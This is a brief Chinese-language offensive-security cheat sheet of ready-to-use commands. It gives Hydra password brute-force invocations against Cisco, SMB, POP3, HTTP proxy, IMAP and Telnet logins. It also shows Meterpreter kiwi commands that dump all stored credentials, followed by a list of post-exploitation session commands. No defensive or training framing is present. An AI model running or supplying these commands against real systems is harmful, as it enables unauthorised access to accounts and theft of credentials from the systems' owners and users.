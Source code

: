 破解cisco：

`hydra -P pass.txt IP cisco`

`hydra -m cloud -P pass.txt IP cisco-enable`

破解smb：

`hydra -l administrator -P pass.txt IP smb`

破解pop3：

`hydra -l muts -P pass.txt my.pop3.mail pop3`

破解http-proxy：

`hydra -l admin -P pass.txt http-proxy://IP`

破解imap：

`hydra -L user.txt -p imap://ip PLAIN`

`hydra -C defaults.txt -6 imap://[fe80::2c:31ff:fe12:ac11]:143/PLAIN`

破解telnet

`hydra ip telnet -l 用户 -P 密码字典 -t 32 -s 23 -e ns -f -V`

### Meterpreter
kiwi \ 
加载kiwi
`load kiwi`

检测所有凭证
`creds_all`


### Meterpreter命令用法
把当前会话挂到后台运行 \
`background` \
杀死后台meterpreter 脚本 \
`bgkill` \
列出正在运行的后台脚本 \
`bglist` \
执行一个meterpreter脚本作为后台线程 \
`bgrun` \
显示信息或控制活动频道 \
`channel` \
关闭一个频道 \
`close` \
分离Meterpreter会话(用于 http/https) \
`detach` \
禁用/启用 unicode 字符串的编码 \
`disable/enable_unicode_encoding` \
获取当前会话超时值 \
`get_timeouts`            
获取会话 GUID \
`guid`            
显示有关 Post 模块的信息 \
`info`          
加载一个或多个 Meterpreter 扩展                
`load` \
获取连接到会话的机器的 MSF ID \
`machine_id` \
运行存储在文件中的命令 \
`resource`           
执行一个 Meterpreter 脚本或 Post 模块 \
`run`       
(重新)协商会话上的 TLV 数据包加密 \
`secure`              